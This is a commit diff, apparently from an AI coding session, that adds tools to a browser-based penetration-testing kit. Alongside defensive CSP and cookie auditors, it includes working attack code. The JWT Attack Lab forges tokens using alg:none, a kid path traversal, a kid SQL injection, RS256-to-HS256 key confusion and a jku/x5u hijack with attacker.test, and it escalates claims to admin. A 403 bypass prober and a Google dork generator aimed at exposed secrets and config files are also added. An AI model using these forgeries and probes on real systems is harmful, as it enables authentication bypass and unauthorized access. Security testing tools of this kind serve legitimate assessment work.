

Add Kali wave 4: JWT Attacks, HTTP Methods, 403 Bypass, CSP Auditor, Cookie Analyzer, Dork Generator
- JWT Attack Lab: generates alg:none variants, kid path-traversal (/dev/null
  empty key) and kid SQLi tokens, RS256->HS256 algorithm-confusion (HMAC
  with the public key), jku/x5u hijack headers, and claims->admin. Each
  attack is fault-isolated so one signing failure never aborts the batch.
- HTTP Methods Tester: probes GET/POST/PUT/DELETE/PATCH/HEAD/OPTIONS and
  flags dangerous enabled verbs; reads Allow on OPTIONS.
- 403 Bypass Tester: path tricks (/, /., //, /%2e/, /..;/, case…) and
  header overrides (X-Original-URL, X-Forwarded-For, …); flags 2xx bypass.
- CSP Auditor: fetch or paste a policy, graded A-F (unsafe-inline/eval,
  wildcards, object-src, base-uri, frame-ancestors, nonce/strict-dynamic).
- Cookie Analyzer: audits Set-Cookie flags + __Host-/__Secure- prefixes.
- Dork Generator: 14 Google dork templates, clickable + copyable.

iOS pager now 42 tools; 51 desktop routes; all 4 suites green (kali.mjs
+4 assertions: JWT/methods/403/CSP).

Claude-Session: https://claude.ai/code/session_015CrM97AMYaZRdxcVNCDT37

diff --git a/index.html b/index.html
@@ -613,6 +613,13 @@ const UNIVERSAL_TOOLS = [
   { id:"wp-scan",        name:"WordPress Scanner", icon:"📰", cat:"Recon", desc:"Detect WordPress, enumerate users via the REST API, read the version and list plugins/themes.", feat:["user enum","version","plugins"] },
   { id:"webrtc-leak",    name:"WebRTC IP Leak",    icon:"📶", cat:"Recon", desc:"Discover local/public IP addresses leaked by the browser via WebRTC ICE candidates.", feat:["local IP","STUN","mDNS"] },
   { id:"exif-viewer",    name:"EXIF / Metadata",   icon:"📷", cat:"Recon", desc:"Read EXIF metadata (camera, timestamps, GPS) from a JPEG you pick — fully offline.", feat:["GPS","camera","offline"] },
+  // --- wave 4 ---
+  { id:"jwt-attacks",    name:"JWT Attack Lab",    icon:"🎟", cat:"Offense", desc:"Generate JWT attack tokens: alg:none, kid path/SQLi injection, RS256→HS256 algorithm confusion and jku/x5u hijack.", feat:["alg confusion","kid inject","jku"] },
+  { id:"http-methods",   name:"HTTP Methods Tester", icon:"🔁", cat:"Offense", desc:"Probe which HTTP verbs an endpoint accepts (PUT/DELETE/PATCH/OPTIONS) to find dangerous or misconfigured methods.", feat:["verb tampering","OPTIONS","PUT/DELETE"] },
+  { id:"bypass-403",     name:"403 Bypass Tester", icon:"🚧", cat:"Offense", desc:"Attempt access-control bypass on a forbidden path via path tricks and header overrides (X-Original-URL, X-Forwarded-For…).", feat:["path tricks","header override","X-Original-URL"] },
+  { id:"csp-auditor",    name:"CSP Auditor",       icon:"🧱", cat:"Web", desc:"Fetch or paste a Content-Security-Policy and grade it — unsafe-inline/eval, wildcards, missing directives.", feat:["unsafe-inline","wildcards","grade"] },
+  { id:"cookie-analyzer", name:"Cookie Analyzer",  icon:"🍪", cat:"Web", desc:"Audit Set-Cookie headers for Secure, HttpOnly, SameSite, scope and __Host-/__Secure- prefix compliance.", feat:["Secure/HttpOnly","SameSite","prefixes"] },
+  { id:"dork-generator", name:"Dork Generator",    icon:"🔍", cat:"Recon", desc:"Build Google dork queries for a target — exposed files, login pages, directory listings and secrets.", feat:["filetype","inurl","index of"] },
 ];
 
 // Desktop-only factory — invoked ONLY when Platform.mode === "desktop".
@@ -3029,6 +3036,219 @@ Impl["exif-viewer"] = (root) => {
   root.append(
     UIKit.panel("Image", null, file, el("div", { class: "hint" }, "everything runs locally — the image is never uploaded")),
     UIKit.panel("Metadata", null, o.node, mapLink));
+};
+
+/* ===================== JWT ATTACK LAB ===================== */
+Impl["jwt-attacks"] = (root) => {
+  const tok = UIKit.area("Base JWT", { placeholder: "eyJ...", spellcheck: "false" });
+  const pubkey = UIKit.field("RS256 public key (for alg-confusion, optional)", { placeholder: "-----BEGIN PUBLIC KEY-----…", mono: true });
+  const jku = UIKit.field("Attacker JWKS URL (for jku/x5u, optional)", { placeholder: "https://attacker.test/jwks.json", mono: true });
+  const list = el("div", {});
+  const run = async () => {
+    list.innerHTML = "";
+    const parts = tok.input.value.trim().split(".");
+    if (parts.length < 2) { list.appendChild(el("div", { class: "out err" }, "paste a valid JWT")); return; }
+    let header, payload;
+    try { header = JSON.parse(Bytes.toUtf8(Bytes.fromB64url(parts[0]))); payload = JSON.parse(Bytes.toUtf8(Bytes.fromB64url(parts[1]))); }
+    catch { list.appendChild(el("div", { class: "out err" }, "bad token segments")); return; }
+    const mk = (h, p, sig) => b64urlEnc(h) + "." + b64urlEnc(p) + "." + (sig || "");
+    const hsToken = async (h, p, secret) => mk(h, p, await hmacSign(b64urlEnc(h) + "." + b64urlEnc(p), secret, "SHA-256"));
+    const specs = [];
+    for (const a of ["none", "None", "NONE"]) specs.push({ name: "alg:" + a, note: "signature stripped — works if the lib trusts alg", fn: () => mk({ ...header, alg: a }, payload) });
+    specs.push({ name: "kid → /dev/null (empty key)", note: "kid points at an empty file so the HMAC key is '' (sign with an empty key in your own tooling — Web Crypto forbids it)", fn: () => mk({ ...header, alg: "HS256", kid: "../../../../../../../../dev/null" }, payload) });
+    specs.push({ name: "kid SQLi", note: "kid injects SQL returning the key 'fs'; signed with 'fs'", fn: () => hsToken({ ...header, alg: "HS256", kid: "x' UNION SELECT 'fs'-- -" }, payload, "fs") });
+    if (pubkey.input.value.trim()) specs.push({ name: "RS256 → HS256 confusion", note: "HMAC-signs using the RSA public key as the secret", fn: () => hsToken({ ...header, alg: "HS256" }, payload, pubkey.input.value.trim()) });
+    if (jku.input.value.trim()) {
+      specs.push({ name: "jku hijack (unsigned header)", note: "host a JWKS at this URL with your own key; resign there", fn: () => mk({ ...header, jku: jku.input.value.trim() }, payload) });
+      specs.push({ name: "x5u hijack (unsigned header)", note: "same idea via x5u cert URL", fn: () => mk({ ...header, x5u: jku.input.value.trim() }, payload) });
+    }
+    if (payload.role !== undefined || payload.admin !== undefined || payload.isAdmin !== undefined)
+      specs.push({ name: "claims → admin (alg:none)", note: "privilege escalation in claims", fn: () => mk({ ...header, alg: "none" }, { ...payload, role: "admin", admin: true, isAdmin: true }) });
+    const attacks = [];
+    for (const s of specs) { try { attacks.push({ name: s.name, note: s.note, token: await s.fn() }); } catch (e) { attacks.push({ name: s.name, note: s.note + " — (couldn't sign here: " + e.message + ")", token: mk({ ...header, alg: "HS256", kid: "../../../../dev/null" }, payload) + " [unsigned]" }); } }
+    attacks.forEach(a => list.appendChild(el("div", { class: "list-row" },
+      el("div", { class: "lr-main" }, el("div", { class: "lr-title" }, a.name), el("code", { class: "lr-sub", style: "white-space:pre-wrap;word-break:break-all" }, a.token), el("div", { class: "hint" }, a.note)),
+      UIKit.copyBtn(a.token))));
+    History.add("JWT Attacks", attacks.length + " token(s) generated");
+  };
+  root.append(
+    UIKit.panel("Input", null, tok.wrap, pubkey.wrap, jku.wrap, el("div", { class: "row" }, UIKit.btn("Generate attack tokens", run, "primary"))),
+    UIKit.panel("Attack tokens", null, list));
+};
+
+/* ===================== HTTP METHODS TESTER ===================== */
+Impl["http-methods"] = (root) => {
+  const url = UIKit.field("Target URL", { placeholder: "https://api.your-site.com/resource/1", value: "https://", mono: true });
+  const o = UIKit.out();
+  const METHODS = ["GET", "POST", "PUT", "DELETE", "PATCH", "HEAD", "OPTIONS"];
+  const run = async () => {
+    o.clear();
+    const u = url.input.value.trim();
+    if (!/^https?:\/\//.test(u)) return o.line("enter a URL", "err");
+    o.line("probing methods (TRACE/CONNECT are blocked by the browser)…", "dim"); o.line("");
+    for (const m of METHODS) {
+      try {
+        const r = await HttpKit.send({ method: m, url: u, body: (m === "PUT" || m === "POST" || m === "PATCH") ? "fs=1" : "" });
+        const dangerous = /^(PUT|DELETE|PATCH)$/.test(m) && r.status < 400;
+        o.line(m.padEnd(8) + " " + r.status + (dangerous ? "  ⚠ method enabled — verify it's intended" : r.status === 405 ? "  (not allowed)" : ""), dangerous ? "err" : r.status < 400 ? "ok" : "dim");
+        if (m === "OPTIONS") { const allow = r.headers["allow"] || r.headers["access-control-allow-methods"]; if (allow) o.line("   Allow: " + allow, "v"); }
+      } catch (e) { o.line(m.padEnd(8) + " error: " + e.message, "dim"); }
+    }
+    History.add("HTTP Methods", u);
+  };
+  root.append(
+    UIKit.panel("Target", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Test methods", run, "primary"))),
+    UIKit.panel("Report", null, o.node));
+};
+
+/* ===================== 403 BYPASS TESTER ===================== */
+Impl["bypass-403"] = (root) => {
+  const url = UIKit.field("Forbidden URL", { placeholder: "https://site.com/admin", value: "https://", mono: true });
+  const o = UIKit.out();
+  const tbody = el("tbody", {});
+  const tbl = el("table", { class: "tbl" }, el("thead", {}, el("tr", {}, el("th", {}, "technique"), el("th", {}, "status"), el("th", {}, "result"))), tbody);
+  const run = async () => {
+    o.clear(); tbody.innerHTML = "";
+    let u; try { u = new URL(url.input.value.trim()); } catch { return o.line("enter a valid URL", "err"); }
+    const origin = u.origin, path = u.pathname;
+    let base; try { base = await HttpKit.send({ method: "GET", url: u.href }); } catch (e) { return o.line("baseline failed: " + e.message, "err"); }
+    o.line("baseline " + path + " → " + base.status, base.status === 403 || base.status === 401 ? "warn" : "dim");
+    const pathV = [path + "/", path + "/.", path + "//", path + "/%2e/", path + "/..;/", path + "%20", path + "%09", path + "?", path + "/~", path + ";/", path.toUpperCase(), "/%2e" + path, path + "..;/", path + ".json"];
+    const hdrV = [{ "X-Original-URL": path }, { "X-Rewrite-URL": path }, { "X-Forwarded-For": "127.0.0.1" }, { "X-Forwarded-Host": "localhost" }, { "X-Custom-IP-Authorization": "127.0.0.1" }, { "X-Originating-IP": "127.0.0.1" }, { "Referer": origin + path }, { "X-Forwarded-Scheme": "http" }];
+    const probes = [
+      ...pathV.map(p => ({ label: "path: " + p, url: origin + p, headers: "" })),
+      ...hdrV.map(h => ({ label: "header: " + Object.keys(h)[0], url: u.href, headers: Object.entries(h).map(([k, v]) => k + ": " + v).join("\n") })),
+    ];
+    let win = 0;
+    const pool = makePool();
+    await pool.run(probes, 6, async (pr) => {
+      try {
+        const r = await HttpKit.send({ method: "GET", url: pr.url, headers: pr.headers });
+        const bypass = r.status < 400 && (base.status === 403 || base.status === 401);
+        if (bypass) win++;
+        tbody.appendChild(el("tr", {}, el("td", {}, pr.label), el("td", { class: bypass ? "ok" : "dim" }, String(r.status)), el("td", { class: bypass ? "sev-high" : "muted" }, bypass ? "⚠ BYPASS (" + r.status + ")" : "")));
+      } catch {}
+    });
+    o.line(""); o.line(win ? "⚠ " + win + " possible bypass(es) — verify the body is real content, not an error page" : "no bypass found", win ? "err" : "ok");
+    History.add("403 Bypass", u.href + " · " + win + " hit(s)");
+  };
+  root.append(
+    UIKit.panel("Target", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Try bypasses", run, "primary"), el("span", { class: "hint" }, "some override headers are dropped by the browser — use a proxy for full coverage"))),
+    UIKit.panel("Log", null, o.node),
+    UIKit.panel("Techniques", null, el("div", { style: "max-height:320px;overflow:auto" }, tbl)));
+};
+
+/* ===================== CSP AUDITOR ===================== */
+function auditCSP(csp) {
+  const out = []; let score = 0, max = 0;
+  const dirs = {}; csp.split(";").forEach(d => { const p = d.trim().split(/\s+/); if (p[0]) dirs[p[0].toLowerCase()] = p.slice(1); });
+  const has = (d) => dirs[d];
+  const chk = (cond, w, good, bad) => { max += w; if (cond) { score += w; out.push(["ok", good]); } else out.push(["warn", bad]); };
+  chk(has("default-src") || has("script-src"), 2, "✓ default-src/script-src defined", "✗ no default-src or script-src");
+  const sd = (dirs["script-src"] || dirs["default-src"] || []).join(" ");
+  chk(!/'unsafe-inline'/.test(sd), 2, "✓ no 'unsafe-inline' in scripts", "✗ 'unsafe-inline' in script-src — XSS not mitigated");
+  chk(!/'unsafe-eval'/.test(sd), 1, "✓ no 'unsafe-eval'", "✗ 'unsafe-eval' present");
+  chk(!/\*/.test(sd) || /'strict-dynamic'/.test(sd), 1, "✓ no wildcard script source", "✗ wildcard (*) script source");
+  chk(/https?:/.test(sd) ? !/(^|\s)https?:(\s|$)/.test(sd) : true, 1, "✓ no bare http(s): scheme source", "⚠ broad scheme source (http:/https:)");
+  chk((dirs["object-src"] || []).join(" ") === "'none'", 1, "✓ object-src 'none'", "✗ object-src not 'none' (plugin/XSS vector)");
+  chk(has("base-uri"), 1, "✓ base-uri set", "✗ no base-uri (base-tag injection)");
+  chk(has("frame-ancestors"), 1, "✓ frame-ancestors set (clickjacking)", "✗ no frame-ancestors");
+  if (/'nonce-|'strict-dynamic'/.test(sd)) out.push(["ok", "✓ uses nonce/strict-dynamic (modern)"]);
+  return { out, score, max };
+}
+Impl["csp-auditor"] = (root) => {
+  const url = UIKit.field("Fetch CSP from URL", { placeholder: "https://your-site.com", mono: true });
+  const paste = UIKit.area("…or paste a CSP", { placeholder: "default-src 'self'; script-src 'self' 'unsafe-inline'" });
+  const o = UIKit.out();
+  const gradeBox = el("div", {});
+  const render = (csp) => {
+    o.clear(); gradeBox.innerHTML = "";
+    if (!csp.trim()) return o.line("no CSP to audit — a missing CSP is itself a finding", "warn");
+    o.line(csp, "dim"); o.line("");
+    const { out, score, max } = auditCSP(csp);
+    out.forEach(([c, t]) => o.line(t, c === "ok" ? "ok" : "warn"));
+    const pct = score / max, letter = pct >= .9 ? "A" : pct >= .7 ? "B" : pct >= .5 ? "C" : pct >= .3 ? "D" : "F";
+    gradeBox.appendChild(el("div", { class: "row" }, el("div", { class: "grade " + letter }, letter), el("div", { class: "muted" }, score + "/" + max + " checks")));
+  };
+  const fetchIt = async () => {
+    o.clear();
+    if (!/^https?:\/\//.test(url.input.value.trim())) return o.line("enter a URL or paste a CSP below", "err");
+    try { const r = await Net.fetchURL(url.input.value.trim()); const csp = r.headers.get("content-security-policy"); if (!csp) return o.line("✗ no Content-Security-Policy header (or hidden by CORS — paste it instead)", "warn"); render(csp); History.add("CSP Auditor", url.input.value.trim()); }
+    catch (e) { o.line("fetch failed: " + e.message, "err"); }
+  };
+  root.append(
+    UIKit.panel("Source", null, el("div", { class: "row" }, url.wrap, UIKit.btn("Fetch & audit", fetchIt, "primary")), paste.wrap, el("div", { class: "row" }, UIKit.btn("Audit pasted CSP", () => render(paste.input.value)))),
+    UIKit.panel("Grade", null, gradeBox),
+    UIKit.panel("Findings", null, o.node));
+};
+
+/* ===================== COOKIE ANALYZER ===================== */
+Impl["cookie-analyzer"] = (root) => {
+  const paste = UIKit.area("Set-Cookie headers (one per line)", { placeholder: "session=abc; Path=/; HttpOnly; Secure; SameSite=Lax\ntoken=xyz; Path=/" });
+  const o = UIKit.out();
+  const run = () => {
+    o.clear();
+    const lines = paste.input.value.split("\n").map(s => s.trim()).filter(Boolean);
+    if (!lines.length) return o.line("paste one or more Set-Cookie headers", "err");
+    lines.forEach(line => {
+      const parts = line.split(";").map(s => s.trim());
+      const [name] = parts[0].split("=");
+      const attrs = {}; parts.slice(1).forEach(a => { const [k, v] = a.split("="); attrs[k.toLowerCase()] = v === undefined ? true : v; });
+      o.line("🍪 " + name, "k");
+      const flag = (cond, good, bad, sev) => o.line("   " + (cond ? "✓ " + good : "✗ " + bad), cond ? "ok" : sev || "warn");
+      flag(attrs.secure, "Secure", "not Secure — sent over HTTP");
+      flag(attrs.httponly, "HttpOnly", "not HttpOnly — readable by JS (XSS can steal it)", "err");
+      const ss = (attrs.samesite || "").toLowerCase();
+      flag(ss === "strict" || ss === "lax", "SameSite=" + (attrs.samesite || ""), "SameSite missing/None — CSRF exposure");
+      if (/^__Host-/.test(name)) flag(attrs.secure && attrs.path === "/" && !attrs.domain, "__Host- prefix valid", "__Host- prefix INVALID (needs Secure, Path=/, no Domain)", "err");
+      if (/^__Secure-/.test(name)) flag(attrs.secure, "__Secure- prefix valid", "__Secure- prefix needs Secure", "err");
+      if (!attrs["max-age"] && !attrs.expires) o.line("   ℹ session cookie (no Expires/Max-Age)", "dim");
+      o.line("");
+    });
+    History.add("Cookie Analyzer", lines.length + " cookie(s)");
+  };
+  root.append(
+    UIKit.panel("Cookies", null, paste.wrap, el("div", { class: "row" }, UIKit.btn("Analyze", run, "primary"))),
+    UIKit.panel("Audit", null, o.node));
+};
+
+/* ===================== DORK GENERATOR ===================== */
+Impl["dork-generator"] = (root) => {
+  const dom = UIKit.field("Domain", { placeholder: "example.com", mono: true });
+  const kw = UIKit.field("Keyword (optional)", { placeholder: "password" });
+  const list = el("div", {});
+  const DORKS = [
+    ["Indexed pages", d => `site:${d}`],
+    ["Subdomains", d => `site:*.${d} -www`],
+    ["Login pages", d => `site:${d} (inurl:login OR inurl:admin OR inurl:signin)`],
+    ["Exposed documents", d => `site:${d} (filetype:pdf OR filetype:xlsx OR filetype:docx)`],
+    ["Config / env files", d => `site:${d} (ext:env OR ext:ini OR ext:conf OR ext:cfg OR ext:yml)`],
+    ["Database / SQL dumps", d => `site:${d} (ext:sql OR ext:db OR ext:bak)`],
+    ["Log files", d => `site:${d} ext:log`],
+    ["Directory listing", d => `site:${d} intitle:"index of"`],
+    ["Backup / old files", d => `site:${d} (inurl:backup OR inurl:old OR ext:bak OR ext:old)`],
+    ["API / swagger", d => `site:${d} (inurl:api OR inurl:swagger OR inurl:graphql)`],
+    ["Git / source exposure", d => `site:${d} (inurl:.git OR inurl:.svn OR ext:gitignore)`],
+    ["Secrets / keys", d => `site:${d} (intext:"api_key" OR intext:"secret" OR intext:"BEGIN RSA")`],
+    ["Open redirects", d => `site:${d} (inurl:redirect OR inurl:url= OR inurl:next=)`],
+    ["Error messages", d => `site:${d} (intext:"sql syntax" OR intext:"stack trace" OR intext:"fatal error")`],
+  ];
+  const render = () => {
+    list.innerHTML = "";
+    const d = dom.input.value.trim() || "example.com"; const k = kw.input.value.trim();
+    DORKS.forEach(([name, fn]) => {
+      let q = fn(d); if (k) q += ` "${k}"`;
+      const href = "https://www.google.com/search?q=" + encodeURIComponent(q);
+      list.appendChild(el("div", { class: "list-row" },
+        el("div", { class: "lr-main" }, el("div", { class: "lr-title" }, name), el("code", { class: "lr-sub", style: "white-space:pre-wrap;word-break:break-all" }, q)),
+        el("a", { href, target: "_blank", class: "btn ghost" }, "search ↗"), UIKit.copyBtn(q)));
+    });
+  };
+  [dom, kw].forEach(f => f.input.addEventListener("input", render));
+  render();
+  root.append(
+    UIKit.panel("Target", null, el("div", { class: "toolbar" }, dom.wrap, kw.wrap)),
+    UIKit.panel("Dorks", null, list));
 };
 
 /* ===================== HISTORY (shared) ===================== */

diff --git a/PROGRESS.md b/PROGRESS.md
@@ -125,12 +125,19 @@ Last updated: 2026-06-24 (session start, autonomous overnight build)
 - [x] WebRTC IP Leak (ICE candidate harvesting)
 - [x] EXIF / Metadata Viewer (offline JPEG EXIF + GPS parser)
 
+### Phase 2.9 — Kali wave 4 (universal) ✅
+- [x] JWT Attack Lab (alg:none, kid path/SQLi, RS256→HS256 confusion, jku/x5u)
+- [x] HTTP Methods Tester (verb tampering, dangerous PUT/DELETE)
+- [x] 403 Bypass Tester (path tricks + header overrides)
+- [x] CSP Auditor (graded; unsafe-inline/eval, wildcards, missing dirs)
+- [x] Cookie Analyzer (Secure/HttpOnly/SameSite/prefix audit)
+- [x] Dork Generator (Google dorks, clickable)
+
 ## Backlog / next up (when user says "continue")
-1. More Kali coverage still browser-feasible: Google-dork generator,
-   JWT alg-confusion (RS256→HS256) + kid/jku, prototype-pollution probe,
-   403-bypass tester, HTTP verb/methods tester, CSP auditor,
-   cookie-security analyzer, S3/cloud-bucket finder, favicon-hash,
-   typosquat generator, XXE/SSTI helper, JSON CSRF, cache-poisoning probe.
+1. Still browser-feasible: prototype-pollution probe, S3/cloud-bucket
+   finder, favicon-hash (shodan), typosquat/domain-permutation generator
+   (+DoH check), cache-poisoning probe, XXE helper, timestamp/UUID/regex
+   utilities, mixed-content scanner, JSON-CSRF, Wayback/archive recon.
 2. NOT feasible in-browser (document as such): HTTP request smuggling
    (can't control TE/CL via fetch), raw nmap/masscan, ARP/L2.
 3. Optional standalone sw.js for full offline navigation.
